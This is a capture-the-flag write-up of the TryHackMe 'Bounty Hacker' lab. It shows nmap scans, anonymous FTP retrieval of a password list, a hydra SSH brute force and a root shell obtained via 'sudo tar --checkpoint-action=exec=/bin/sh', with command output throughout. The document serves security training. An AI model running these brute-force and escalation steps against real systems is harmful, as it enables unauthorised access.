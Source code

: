 ```yaml
---
title: "Bounty Hacker"
date: 2025-01-22
image: /assets/img/tryhackme/BountyHacker/BountyHacker_image.jpg
description: Writeup of the TryHackMe-CTF Bounty Hunter
categories: [Tryhackme, Easy]
tags: [linux, web, ssh, hydra, bruteforce, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Bounty Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/cowboyhacker">https://tryhackme.com/r/room/cowboyhacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Bounty Hacker

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:25 EST
Nmap scan report for 10.10.66.27
Host is up (0.040s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.89 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 21,22,80 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:27 EST
Nmap scan report for 10.10.66.27
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.63.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds
```
from here I analyzed the services one after another.

## FTP Analysis
As we can see in the nmap output the ftp server allow anonymous access. Therefore I trief to access the service:

```bash
$ ftp anonymous@10.10.59.122
Connected to 10.10.59.122.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14671|)
```
It took me a while to actually see the files because of many timeouts. Thats why I switched to Filezilla which automatically try to reconnect. After some time I was able to download the following files:
```bash
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
As we can see we got a potential username and probably a password list.

## HTTP Analysis
I analyzed the source code, performed enumeration and tried steganography techniques on all the images without getting anything.

## SSH Analysis
With the given username and the potential password list, I tried to brute force the ssh login using `hydra`
```bash
$ hydra -l lin -P locks.txt ssh://10.10.59.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 04:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.122:22/
[22][ssh] host: 10.10.59.122   login: lin   password: [removed]
```
Hydra found a valid credentails, which allowed me to login in and retrieve the user flag.
```bash
$ ssh lin@10.10.59.122
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*** removed ***}
```
## Privilege Escalation
For the root flag we need to escalate our privileges. I hab success by executing `sudo -l`
```bash
$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/tar/#shell">gftobins</a> gave me all I needed:
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
